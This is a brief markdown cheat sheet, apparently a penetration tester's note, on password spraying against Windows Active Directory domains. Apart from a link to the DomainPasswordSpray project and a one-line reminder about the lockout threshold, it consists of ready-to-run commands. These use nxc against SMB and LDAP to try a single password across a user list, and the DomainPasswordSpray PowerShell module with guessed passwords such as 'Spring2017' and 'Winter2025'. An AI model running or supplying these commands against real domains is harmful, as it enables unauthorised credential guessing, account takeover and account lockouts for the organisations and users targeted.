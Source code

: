 # Password Spraying
[DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
Check or confirm lockout threshold
## nxc
1. Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
## DomainPasswordSpray
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```


